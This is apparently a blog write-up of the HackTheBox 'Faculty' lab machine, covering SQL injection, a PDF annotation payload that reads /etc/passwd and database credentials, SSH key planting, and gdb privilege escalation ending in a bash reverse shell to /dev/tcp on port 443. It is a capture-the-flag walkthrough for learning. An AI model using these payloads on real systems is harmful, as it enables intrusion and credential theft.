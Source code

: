 ```yaml
---
title: Faculty HackTheBox Writeup
tags: [writeup,annotation-file,pdf,gdb,hackthebox,School-Faculty-Scheduling-System,rce,linux,pid,lfi,meta-git]
style: border
color: success
description: ""
---
```


[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgrivhDcnfkhqe89ZUH69xLwmXPDNPs5hBu8jjW0bERKkr0-KgljbWc243cXWotQ5GNcdKpDvrKRQ_KbYbaxNN1Qa1bJRfovyorOhIzvWqXoWlbI1nAdS-OA3lCyxv1BkROJ54Nvb1tqDxbQwpNkbIZTsH0VfHrhb7Pdf-BzMlDuuBuWh8zIdw1ANXpDQ/w640-h485/Faculty.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgrivhDcnfkhqe89ZUH69xLwmXPDNPs5hBu8jjW0bERKkr0-KgljbWc243cXWotQ5GNcdKpDvrKRQ_KbYbaxNN1Qa1bJRfovyorOhIzvWqXoWlbI1nAdS-OA3lCyxv1BkROJ54Nvb1tqDxbQwpNkbIZTsH0VfHrhb7Pdf-BzMlDuuBuWh8zIdw1ANXpDQ/s1400/Faculty.png)


## Scanning

We launch **nmap** tool with scripts and versions on 22 and 80 ports.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgcx2eGPK86fvRNJGDPUYicblgDzBOMTwm6Bm2fSlgry3NuJO9FjULH8J8xeVBUhSUEWBVC-861_sBwQJ6WdE4Pn25PGT4zJSKhRE3DVMiYBSr5F3zdiJ6dML6yte8GI8JxOmRAYZ_4-PAF6xZZOVc3fisrnqKar_SouI4rmThcqI7Em2kKVVB2qCG4NA=w640-h208)](https://blogger.googleusercontent.com/img/a/AVvXsEgcx2eGPK86fvRNJGDPUYicblgDzBOMTwm6Bm2fSlgry3NuJO9FjULH8J8xeVBUhSUEWBVC-861_sBwQJ6WdE4Pn25PGT4zJSKhRE3DVMiYBSr5F3zdiJ6dML6yte8GI8JxOmRAYZ_4-PAF6xZZOVc3fisrnqKar_SouI4rmThcqI7Em2kKVVB2qCG4NA)

We see that it shows us a redirection to "_faculty.htb_", we put it in our "_/etc/hosts_" file.

## Enumeration

We access the site and see that we are required to enter the ID of a faculty:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjPE0tZ5QJ9c2JEfUUsJWvI_wmiNqz1X9OGZUIVC5S65-q6UOb4ECa9XXxjjRgUQdc2L7PqC5TPsvlHeg0CU0pA6PXZnp3hXNqW4I8dKhQNxv18JULCHQ_IZFl5nC4LX2prztu7H8xVrjiJWfaY1LupoeTHarxX2ywJTScN3uWLg_q_JvSigRRuubP37g=w640-h390)](https://blogger.googleusercontent.com/img/a/AVvXsEjPE0tZ5QJ9c2JEfUUsJWvI_wmiNqz1X9OGZUIVC5S65-q6UOb4ECa9XXxjjRgUQdc2L7PqC5TPsvlHeg0CU0pA6PXZnp3hXNqW4I8dKhQNxv18JULCHQ_IZFl5nC4LX2prztu7H8xVrjiJWfaY1LupoeTHarxX2ywJTScN3uWLg_q_JvSigRRuubP37g)
  
We searched for exploits, and found several very interesting ones with SQL Injection or authentication evasion.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjEoXdeap9d4DzRCI_Qh57v-Lqdl_w90_i5kdkXPW6FQdC2mYHZoLUCIiyt_737Emc9dzxw9iIw3-MNJsHiPGIaXg67qZdzJfalfANLrRgB2uD1IPGyXxEU0Hr-LngaAS27mabEgZH8CoCjWeWAixRwX4DDeOcuS8sumrK3NqcoeLnEbRDjEkEx87TWVw=w640-h128)](https://blogger.googleusercontent.com/img/a/AVvXsEjEoXdeap9d4DzRCI_Qh57v-Lqdl_w90_i5kdkXPW6FQdC2mYHZoLUCIiyt_737Emc9dzxw9iIw3-MNJsHiPGIaXg67qZdzJfalfANLrRgB2uD1IPGyXxEU0Hr-LngaAS27mabEgZH8CoCjWeWAixRwX4DDeOcuS8sumrK3NqcoeLnEbRDjEkEx87TWVw)

  
But upon investigation, it seems that it will be easier to gain access, we see that we can view the contents of the "_index.php_" file without credentials.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEge1TDRbBxJs4Grfo1-CErhrJRE_IXcWSXr_GpoocHXvzcJjutHgmE3L9quqJlGrFkkbp7dEkpVlmvaTnxH9_Wt84rtb20-31QZAChKAb8BV5t89_3tWZWdj4Kl5aFk2PxPbkZxLaI3i2bY30wOBflFvRSL9uhK9IrHZ65E3qypg_cb0frvvHUXK1K_gA=w640-h304)](https://blogger.googleusercontent.com/img/a/AVvXsEge1TDRbBxJs4Grfo1-CErhrJRE_IXcWSXr_GpoocHXvzcJjutHgmE3L9quqJlGrFkkbp7dEkpVlmvaTnxH9_Wt84rtb20-31QZAChKAb8BV5t89_3tWZWdj4Kl5aFk2PxPbkZxLaI3i2bY30wOBflFvRSL9uhK9IrHZ65E3qypg_cb0frvvHUXK1K_gA)

  

### Proof of concept:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi_kiZyl_EHl5S2tZFyAiNog0qqaa2spx_7EnP7Py5lkaJiPYXNw13YsveR7ZQlup00oH5njXNNStwLQ4z88sON4uI7ZAMrsoIXloczKtwaig0a14SFFgi_i7DtWkC1wdvBuzZFLzm0rT7kMReGGpzHoCzd8ce6svP1Kr2M2bRX7kjjOpmqm3Q3HD5OHw=w640-h124)](https://blogger.googleusercontent.com/img/a/AVvXsEi_kiZyl_EHl5S2tZFyAiNog0qqaa2spx_7EnP7Py5lkaJiPYXNw13YsveR7ZQlup00oH5njXNNStwLQ4z88sON4uI7ZAMrsoIXloczKtwaig0a14SFFgi_i7DtWkC1wdvBuzZFLzm0rT7kMReGGpzHoCzd8ce6svP1Kr2M2bRX7kjjOpmqm3Q3HD5OHw)
  
This is very similar to the vulnerability and exploitation of [Company's Recruitment Management System 1.0](https://m3n0sd0n4ld.blogspot.com/2022/07/companys-recruitment-management-system.html) (I take advantage of this post so you can read it anyway).

## Exploiting

So, we only have to modify the 302 responses by 200, to maintain access.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgTw57lbMopgZdjEvztdCL6_XHsTBe0xrC6MJBHcpindVJLmMKEUh6xODvvRKp3SyC5kxOEmtKtBb3hQ_3tULEOWnupXvVzhM-zr2Lfmv5CykWu5lLLY4qr6AG16ZYJGu9Q-kU7Y7kiDifGh88HFCfssxDHSLPG0i1TxMoOXEKc5DJbqAbHmMDNJygXWg=w640-h338)](https://blogger.googleusercontent.com/img/a/AVvXsEgTw57lbMopgZdjEvztdCL6_XHsTBe0xrC6MJBHcpindVJLmMKEUh6xODvvRKp3SyC5kxOEmtKtBb3hQ_3tULEOWnupXvVzhM-zr2Lfmv5CykWu5lLLY4qr6AG16ZYJGu9Q-kU7Y7kiDifGh88HFCfssxDHSLPG0i1TxMoOXEKc5DJbqAbHmMDNJygXWg)

  
Knowing the identifiers, it is now possible to access the information in each of the doctors.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEibgafTnb8Da-ylqfE-mMAWSdSzop5nUURv3Yw1yp_yV--qvFPIa7McI861VUqv40Iod77c8KivP2hg8JPcKJ1uRb5kVL91cxY54yxw8HIWE831cj8cAmlsQr30LDUCbmf_s2QsHu6EQd6LswiwFtqxAvkzXUFizT8l0CNJo869WS48flFDzm9geeLD6g=w640-h472)](https://blogger.googleusercontent.com/img/a/AVvXsEibgafTnb8Da-ylqfE-mMAWSdSzop5nUURv3Yw1yp_yV--qvFPIa7McI861VUqv40Iod77c8KivP2hg8JPcKJ1uRb5kVL91cxY54yxw8HIWE831cj8cAmlsQr30LDUCbmf_s2QsHu6EQd6LswiwFtqxAvkzXUFizT8l0CNJo869WS48flFDzm9geeLD6g)

  
Unfortunately, they had removed the action buttons on the user, I also failed to replicate editing the user to try to get the password.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhFp6f2P4G8GpkU14jbwshwbw-BhkldhOa05U02ug4jDERNeHNNcONApdWdTyp-7qdKVbD97IFVznUSCh1RcLU7Ih-SLz6hTRAAgrwpnqUhN6Ss04PC8aqmN1tseMz2jVQa7zgjQljNfgMEyuxlFmW4d-BSiUo6V_WT_Ebs6wvxzKegKWU_TRyBhIPFow=w640-h190)](https://blogger.googleusercontent.com/img/a/AVvXsEhFp6f2P4G8GpkU14jbwshwbw-BhkldhOa05U02ug4jDERNeHNNcONApdWdTyp-7qdKVbD97IFVznUSCh1RcLU7Ih-SLz6hTRAAgrwpnqUhN6Ss04PC8aqmN1tseMz2jVQa7zgjQljNfgMEyuxlFmW4d-BSiUo6V_WT_Ebs6wvxzKegKWU_TRyBhIPFow)

  
But well, let's remember that there are public exploits for SQL injection, so I launched **sqlmap** and saw that it was indeed vulnerable.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjp0XwcJCiAO7tYzSFqR1eo3rGcKoB2bbTCDnVdLKjKBokCVCvU7mQpzxpu53Ey05It8uG2-FOEN2C4R8zYr6ObI7JvP8vxD4Vn2Ck23I-2RdCMVN9mpg2nkea3zoZGhZIsZHMJ3kZZt09Fmswvr-0MwQ-hQfJFIWQJtcE7yHOkjhkliAdAVU7Ekdo91Q=w400-h148)](https://blogger.googleusercontent.com/img/a/AVvXsEjp0XwcJCiAO7tYzSFqR1eo3rGcKoB2bbTCDnVdLKjKBokCVCvU7mQpzxpu53Ey05It8uG2-FOEN2C4R8zYr6ObI7JvP8vxD4Vn2Ck23I-2RdCMVN9mpg2nkea3zoZGhZIsZHMJ3kZZt09Fmswvr-0MwQ-hQfJFIWQJtcE7yHOkjhkliAdAVU7Ekdo91Q)

### Tables:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgOfX1YNGy7c7aL1K3TD4AtPCCsjNRHMx-4cvvE0GXqeWLCfBc8_oFrolbbevoChds3f4EHWmhONxKX4_Bnc5BZY89Zk6ymXkouMw5LaOOUtRvxfk_kWAv3lwN9XS7fJBcVUAAaHxY3zxRnDnn41uzuV13WzpMlTnY5IGyr8bj1eAyUiuZYCJ4AjOnvkQ)](https://blogger.googleusercontent.com/img/a/AVvXsEgOfX1YNGy7c7aL1K3TD4AtPCCsjNRHMx-4cvvE0GXqeWLCfBc8_oFrolbbevoChds3f4EHWmhONxKX4_Bnc5BZY89Zk6ymXkouMw5LaOOUtRvxfk_kWAv3lwN9XS7fJBcVUAAaHxY3zxRnDnn41uzuV13WzpMlTnY5IGyr8bj1eAyUiuZYCJ4AjOnvkQ)

### User columns:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgha6TyaojE8BJTvwgtm1me13ujQfWkWxi51AMs4QEfeKrqtx9zaXM9cVWa7BbfDQhS0eUpBMHCFzWB_t1qXclQREVCQ2FmsICFxtQRX1z4PiekeM6NrqJ5IV7gFcO6h-LGjEh6qvoT8IDq0BqRyTpl5jUBQjDsWmN1fKsMpRqUIlqHgCDaERsxijkBLw)](https://blogger.googleusercontent.com/img/a/AVvXsEgha6TyaojE8BJTvwgtm1me13ujQfWkWxi51AMs4QEfeKrqtx9zaXM9cVWa7BbfDQhS0eUpBMHCFzWB_t1qXclQREVCQ2FmsICFxtQRX1z4PiekeM6NrqJ5IV7gFcO6h-LGjEh6qvoT8IDq0BqRyTpl5jUBQjDsWmN1fKsMpRqUIlqHgCDaERsxijkBLw)

### User credentials:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEg1iJYGB8iLgErwIqVt5LxiCRppmKcJFKsMqu4s5VxraFI00_QXyb5yz3hmR8cXjU5jNvpVq0XElJJXXLp28KmmuOLU8INmP5U0FVaEIfHBzj6Rqi8BpSjLOMzuix77x_wyE4vhlCb4t4N-eodhW98ZQ6VbfsMMpmo6AKtWlTATd7JKyVktiWNCGJ1-LQ=w400-h140)](https://blogger.googleusercontent.com/img/a/AVvXsEg1iJYGB8iLgErwIqVt5LxiCRppmKcJFKsMqu4s5VxraFI00_QXyb5yz3hmR8cXjU5jNvpVq0XElJJXXLp28KmmuOLU8INmP5U0FVaEIfHBzj6Rqi8BpSjLOMzuix77x_wyE4vhlCb4t4N-eodhW98ZQ6VbfsMMpmo6AKtWlTATd7JKyVktiWNCGJ1-LQ)

Unfortunately, I was unable to break the hash and could not continue in this way.

  

So I continued to review the database information and found in the "_description_" field that local files were being loaded with their absolute paths.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjKwXh6IfLEF5Nx6AztX4ibqZbwc2KH7p77qLgECh6dkjoXiWH8bfoEpgCanOR6ZSS6Jv47DCwTACZGcB0bC7tHZYueSqAww6RtpSH1UJhw61o59aqzyPlPmaxsySUA-O3m4SN6GhRYBg3mzqEnZ5QPuL8QPezOTcnwuDVKyVwukWssXXP_iMpGY-t4Ag=w640-h416)](https://blogger.googleusercontent.com/img/a/AVvXsEjKwXh6IfLEF5Nx6AztX4ibqZbwc2KH7p77qLgECh6dkjoXiWH8bfoEpgCanOR6ZSS6Jv47DCwTACZGcB0bC7tHZYueSqAww6RtpSH1UJhw61o59aqzyPlPmaxsySUA-O3m4SN6GhRYBg3mzqEnZ5QPuL8QPezOTcnwuDVKyVwukWssXXP_iMpGY-t4Ag)

Searching the application fields, I found the "_Subject_" and "_Description_": (_This was a capture of a PoC XSS, change the line for the payload below._)

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgy9A5SPdvczwPQa_W_1VkpLsSCBZmkuk2x0FFls4dsnZrAqMn7QOmSYWpRJFB13T72c-29imWyAHBXb6V2AEAxipXPwNdWJ5KS-QgfxKnRTqjyQXrIDQoAfk2oSeaxU0-KVWwv7VSQpaoxdNDgoJvfaCDFruucgg1QT9BLvM7WKBEIDy1RCuG1OOxi_w=w640-h374)](https://blogger.googleusercontent.com/img/a/AVvXsEgy9A5SPdvczwPQa_W_1VkpLsSCBZmkuk2x0FFls4dsnZrAqMn7QOmSYWpRJFB13T72c-29imWyAHBXb6V2AEAxipXPwNdWJ5KS-QgfxKnRTqjyQXrIDQoAfk2oSeaxU0-KVWwv7VSQpaoxdNDgoJvfaCDFruucgg1QT9BLvM7WKBEIDy1RCuG1OOxi_w)

### Payload:

     <annotation file=\"/etc/passwd\" content=\"/etc/passwd\" icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />  
    
### Download the PDF file:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhnKa3QkHdA5K5nNtiGifbvPyb3LoUu0awOKgK5ojcN7McPRSElBkxJcSuSUzBDbznY0oHJ-5eLNuOLiIV3YQLLRFctx7-Id7vIH_4xMrbZOxYvB2GWMTmJegY6G0NuTXSrhi7KLi2GcWfbQQlY3Ak1ix4agCHPCcOxDFy94XZTwJdUZGZVwWpWfDjzKQ=w640-h290)](https://blogger.googleusercontent.com/img/a/AVvXsEhnKa3QkHdA5K5nNtiGifbvPyb3LoUu0awOKgK5ojcN7McPRSElBkxJcSuSUzBDbznY0oHJ-5eLNuOLiIV3YQLLRFctx7-Id7vIH_4xMrbZOxYvB2GWMTmJegY6G0NuTXSrhi7KLi2GcWfbQQlY3Ak1ix4agCHPCcOxDFy94XZTwJdUZGZVwWpWfDjzKQ)

We open the pdf with a viewer and we see some icons to the right of the document, we click and we can view the contents of the file "_/etc/passwd_".

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgzDvgd_btO9tuz8KqZ8YZN5nwuF0haW7U8yvn4r2V42Je6nJElUTzNapDpbx13Lj3Mg7a9V5VkyXVNxuay-Co6ibAQS-j6fUlTsE_wHdFo7L0xDUFwG5wTW9q9srBini8Cmaz3Sk4B2cnSeO9V9_uW8NKVwE8Fg9YtXj4soyBUgUVGhzHhRHubkidXEA=w640-h537)](https://blogger.googleusercontent.com/img/a/AVvXsEgzDvgd_btO9tuz8KqZ8YZN5nwuF0haW7U8yvn4r2V42Je6nJElUTzNapDpbx13Lj3Mg7a9V5VkyXVNxuay-Co6ibAQS-j6fUlTsE_wHdFo7L0xDUFwG5wTW9q9srBini8Cmaz3Sk4B2cnSeO9V9_uW8NKVwE8Fg9YtXj4soyBUgUVGhzHhRHubkidXEA)

  
We repeat the procedure, this time we will read the file "_db\_connect.php_", this file contains credentials of the connection with the database.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhR69rx3sNFhLivZOwx3yvF16FKDX6vWPT6ncr2YXLeCHdeITAZvkhUBCivuzKADR_Wi1GnCvJ4fC5nKoARifKNuHnO3HBcnkV26UFkLugse2-828nCobRHv2D5Y55lPz9D65mLlg5_CicTdxFBt6chRPnwXeG6RjGnrleqySXYGykOnwdDsVIz7tPjaA=w640-h106)](https://blogger.googleusercontent.com/img/a/AVvXsEhR69rx3sNFhLivZOwx3yvF16FKDX6vWPT6ncr2YXLeCHdeITAZvkhUBCivuzKADR_Wi1GnCvJ4fC5nKoARifKNuHnO3HBcnkV26UFkLugse2-828nCobRHv2D5Y55lPz9D65mLlg5_CicTdxFBt6chRPnwXeG6RjGnrleqySXYGykOnwdDsVIz7tPjaA)

  
We reuse the password on the user "_gbyolo_" by **SSH**, we get access but we do not have access to read the user.txt flag.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEimVrLcFMPPFdu7yfzHZu6nqKNN5292s_obNBjYfXVlqJ9SK2ECNkPutuvamxmuA97BU5zDofzFsR2x_RwhM78LhXQm9H_zw06BWVFh-_R6iFkaVM57qdD2TNetAEvpEt78q9LOS2QsQaZ0H8ZdkKty-V9hj-vJE-3lFJQSm7yibRLo5CSyAnBicMF_7w=w640-h612)](https://blogger.googleusercontent.com/img/a/AVvXsEimVrLcFMPPFdu7yfzHZu6nqKNN5292s_obNBjYfXVlqJ9SK2ECNkPutuvamxmuA97BU5zDofzFsR2x_RwhM78LhXQm9H_zw06BWVFh-_R6iFkaVM57qdD2TNetAEvpEt78q9LOS2QsQaZ0H8ZdkKty-V9hj-vJE-3lFJQSm7yibRLo5CSyAnBicMF_7w)

  
We see that we can run **meta-git** as the "_developer_" user, to gain access and read the flag from user.txt

[![](https://blogger.googleusercontent.com/img/a/AVvXsEitrelaAQFNWvAJuAEUdPX6QY8cSxPaQeCng4ELQgE9sSbxNeCg8TLV_0lNVj-PYsRvsEbYPhlJXJeFDUEjbvtKj52UvrKvClksWPabLAbzOF820LVmwSwyFdDck_2P7ASbqkBTvqK-UqN8HLSYKEOWFzycV8M8fW8U-gCIoa5boq5IyGWIlqy8jvo2nw=w640-h168)](https://blogger.googleusercontent.com/img/a/AVvXsEitrelaAQFNWvAJuAEUdPX6QY8cSxPaQeCng4ELQgE9sSbxNeCg8TLV_0lNVj-PYsRvsEbYPhlJXJeFDUEjbvtKj52UvrKvClksWPabLAbzOF820LVmwSwyFdDck_2P7ASbqkBTvqK-UqN8HLSYKEOWFzycV8M8fW8U-gCIoa5boq5IyGWIlqy8jvo2nw)

  
We look for information about this binary, we see that apparently, we need repos and the cloning is done on .meta files.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhyNhaPuFmuYV6vcTZUPxSpAFSexYn5dAh8CnvRUc0vQcqLU3Ae_8_gGSKeDzQ8IqkuXW8xHNVbtEZlFj1M5GA3cRDgEQJgpPFbmLNloHd1-PbPk4FvGPM5o2MPHEI6drtncHJm0CSNizu70krjj8evRMmuLTf5N1Lx_fgT4wSy3aQOKiTBct_jg7pwPw=w640-h488)](https://blogger.googleusercontent.com/img/a/AVvXsEhyNhaPuFmuYV6vcTZUPxSpAFSexYn5dAh8CnvRUc0vQcqLU3Ae_8_gGSKeDzQ8IqkuXW8xHNVbtEZlFj1M5GA3cRDgEQJgpPFbmLNloHd1-PbPk4FvGPM5o2MPHEI6drtncHJm0CSNizu70krjj8evRMmuLTf5N1Lx_fgT4wSy3aQOKiTBct_jg7pwPw)

  
We searched on the server and found these:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiSEmNEK6hfH-0T0pC5e_qQlxpybrGTqN8bijF1CVFLhuOKe8VKEBkLyeVfAfRjP4bzw1p7p574apThKTszzcC9ibpDHe60FI7AybAQbSfr01MLFbyi9eRXboiN0NlB2f8E7U1Iv04VLq1a6Dh7kxm7-62CDBvrWw8YkZGr7tTtFhHFNN--a0FKo8r8Bg=w400-h170)](https://blogger.googleusercontent.com/img/a/AVvXsEiSEmNEK6hfH-0T0pC5e_qQlxpybrGTqN8bijF1CVFLhuOKe8VKEBkLyeVfAfRjP4bzw1p7p574apThKTszzcC9ibpDHe60FI7AybAQbSfr01MLFbyi9eRXboiN0NlB2f8E7U1Iv04VLq1a6Dh7kxm7-62CDBvrWw8YkZGr7tTtFhHFNN--a0FKo8r8Bg)

  
I started trying the classic commands that [GTFOBins](https://gtfobins.github.io/) gave me, until finally one of them worked.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEg_axIEbtqF8TArEidbaqDrA-IEd15OkqomsxD_lGWfVr2sdIdaSfpHRWzPK1uAWHtI4QP8a0R7_MKPxXoEeH89yIfOSK3554fD-oqgK1v6Hlu16S2TbG-znCZ7Rsnh8UcOrYEWQhOm36r5dIytfDS_BbfRlQx0vCEdluuRmdAkWM3ib3iqNC4EAm__tw=w640-h360)](https://blogger.googleusercontent.com/img/a/AVvXsEg_axIEbtqF8TArEidbaqDrA-IEd15OkqomsxD_lGWfVr2sdIdaSfpHRWzPK1uAWHtI4QP8a0R7_MKPxXoEeH89yIfOSK3554fD-oqgK1v6Hlu16S2TbG-znCZ7Rsnh8UcOrYEWQhOm36r5dIytfDS_BbfRlQx0vCEdluuRmdAkWM3ib3iqNC4EAm__tw)

  
If we can read the flag and our user has **SSH** key, it is possible that the "_developer_" user also has **SSH** key, this is typical for development users.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi57FmQaxeO6u3-vcZ3jiO1bFg8kPOe5Sqhd3PNkI4wQ1kmVJi5TSd9ZQmuwcMBOTCWWWMaxIKp86J0zugkzMopKf-k8KunamdP9x1JQfFJwXeLNaak7kM3wJvavWiZ1Dcbw_m7YOY5MDdDIpgiqwUZX0XcJESMawmsk5hwrLVVU6urSyy8jkVDfTqXzA=w640-h610)](https://blogger.googleusercontent.com/img/a/AVvXsEi57FmQaxeO6u3-vcZ3jiO1bFg8kPOe5Sqhd3PNkI4wQ1kmVJi5TSd9ZQmuwcMBOTCWWWMaxIKp86J0zugkzMopKf-k8KunamdP9x1JQfFJwXeLNaak7kM3wJvavWiZ1Dcbw_m7YOY5MDdDIpgiqwUZX0XcJESMawmsk5hwrLVVU6urSyy8jkVDfTqXzA)

  
Now we access by **SSH** with the user "_developer_", but we see that we also need the password and we don't know it.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjBqiYbvIm0mlABsT3AcdanQUqGgWyMwqVizr3Awrg4qlsUNkcwSsQFUfuPrnGwCVxGm0SvENQ5FWBEfod1HtE8jiwfG3C68vQRh0-NthsDNx6ZAuPW3e7cUqXg77Nt0ncV0wNJErauvm6c2hkPA1uR97ARf9JTCjJorKhkUEZPHBraRry3dYxgGczpLw=w400-h125)](https://blogger.googleusercontent.com/img/a/AVvXsEjBqiYbvIm0mlABsT3AcdanQUqGgWyMwqVizr3Awrg4qlsUNkcwSsQFUfuPrnGwCVxGm0SvENQ5FWBEfod1HtE8jiwfG3C68vQRh0-NthsDNx6ZAuPW3e7cUqXg77Nt0ncV0wNJErauvm6c2hkPA1uR97ARf9JTCjJorKhkUEZPHBraRry3dYxgGczpLw)

  
We put our public key in the "_authorized\_keys_" file to later authenticate via **SSH**.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgr5u_X63SG9j9O8bhypqC-e6pc5fV-O6XTFCNUCuMiQIUQAjS877mLUhrLHJnpW2T5vf9UUXPLjlYQuAoBat_bI8f-CsVi51wQ7JN8AVdv1qcNMVbRdQRuqgyFbz6vRaUySITam4d3ZB2YlA2ChFi8psATVLXoDndKdaELA2O8Pz89QBaqWRJQ-XJ6Sw=w640-h166)](https://blogger.googleusercontent.com/img/a/AVvXsEgr5u_X63SG9j9O8bhypqC-e6pc5fV-O6XTFCNUCuMiQIUQAjS877mLUhrLHJnpW2T5vf9UUXPLjlYQuAoBat_bI8f-CsVi51wQ7JN8AVdv1qcNMVbRdQRuqgyFbz6vRaUySITam4d3ZB2YlA2ChFi8psATVLXoDndKdaELA2O8Pz89QBaqWRJQ-XJ6Sw)

  

### SSH connection with the "developer" user:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiFkUlPGabqqRFkaQd5D91jhdw6z5Q-ExyNoLcc2tm-4Wg72-v82LvcjtRybU6qbIWZshfxVuCjf88HdmSk0inz9yPAX4z-E_eJMdy3_UKQ8YXLCIuMBsMwOWifOOIDhu9ktbshr8NLJG9F8r5y6gtVQxJgX_RXpokjmHjDza4MczCrgk5iV0JVPQsqSg=w640-h314)](https://blogger.googleusercontent.com/img/a/AVvXsEiFkUlPGabqqRFkaQd5D91jhdw6z5Q-ExyNoLcc2tm-4Wg72-v82LvcjtRybU6qbIWZshfxVuCjf88HdmSk0inz9yPAX4z-E_eJMdy3_UKQ8YXLCIuMBsMwOWifOOIDhu9ktbshr8NLJG9F8r5y6gtVQxJgX_RXpokjmHjDza4MczCrgk5iV0JVPQsqSg)

  
  

## Privilege Escalation

We launch the "_linpeas.sh_" tool, we list that the **gdb** binary can be executed by root or the "_debug_" group.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhsUhnBmn51BWYA7BhuFfTbz5RAesB6Fj-dkImf7G3sl61suXkciiJtu98W306lWSP_DfMMH-OOXNu-RFjxVQPFAnKnrFjZ1bNE1rNdDn_RfZ7HuK1mE3e593eQNy2pjdXJydm8fnZhiFgvJ71MrBe2-xMvSd9UivWj1QXP7wxsygFzEWvlQ23rB2vI8A=w640-h60)](https://blogger.googleusercontent.com/img/a/AVvXsEhsUhnBmn51BWYA7BhuFfTbz5RAesB6Fj-dkImf7G3sl61suXkciiJtu98W306lWSP_DfMMH-OOXNu-RFjxVQPFAnKnrFjZ1bNE1rNdDn_RfZ7HuK1mE3e593eQNy2pjdXJydm8fnZhiFgvJ71MrBe2-xMvSd9UivWj1QXP7wxsygFzEWvlQ23rB2vI8A)

  

We can see that we belong to the group and that we can run **gdb** with our user.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiOaFxkgV0oLxQdmWyTAGBgcLNTTViBuByU4LBg2liHJ3Xq9UYzNjF2_SbMNwCWSNpwaJm1hmTsEEWAxEm78mu2uDB9p-o-DIvtvNlWqbhWk1XXbfpSXW-IKQn8RLDpGsj5zYicvPr9hfBcjvZkiZzbkAydA9BhBKOlbOpgEWAeZJK5MviRyeePaDBJoA=w640-h124)](https://blogger.googleusercontent.com/img/a/AVvXsEiOaFxkgV0oLxQdmWyTAGBgcLNTTViBuByU4LBg2liHJ3Xq9UYzNjF2_SbMNwCWSNpwaJm1hmTsEEWAxEm78mu2uDB9p-o-DIvtvNlWqbhWk1XXbfpSXW-IKQn8RLDpGsj5zYicvPr9hfBcjvZkiZzbkAydA9BhBKOlbOpgEWAeZJK5MviRyeePaDBJoA)

  
Looking for information about **GDB**, I found this post by [Stark0from Sanctuary](https://stark0de.com/2019/09/13/linux-privilege-escalation.html), in which he comments that it is possible to extract information from memory or execute commands. 

### Commands:

     export PID=$(ps aux | grep "^root.*python3" | awk '{print $2}')  
     gdb -p $PID  
     call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1'")  
    

  

We listen on port 443, execute the commands and see how we receive a connection from the machine as the _root_ user, finally we read the root flag.


[![](https://blogger.googleusercontent.com/img/a/AVvXsEiQcMKzFPnq0rx16f3G_zG8rKD1jCH4E56G_UeQ3qzhMNaB9tGH11Y8iG4EXA6kXInpnfmERHa1c7F8QhKCmuQTnFXLMEtTZIC4MFYZ2pRUOuk3QjDFV9EUDbNYKo0JPkVmWi8uRuDBcWs01RcWsC8CF6sw59zHLZV2B--FIVNTNk8cg4tDFo3Ag3H7Mw=w640-h298)](https://blogger.googleusercontent.com/img/a/AVvXsEiQcMKzFPnq0rx16f3G_zG8rKD1jCH4E56G_UeQ3qzhMNaB9tGH11Y8iG4EXA6kXInpnfmERHa1c7F8QhKCmuQTnFXLMEtTZIC4MFYZ2pRUOuk3QjDFV9EUDbNYKo0JPkVmWi8uRuDBcWs01RcWsC8CF6sw59zHLZV2B--FIVNTNk8cg4tDFo3Ag3H7Mw)




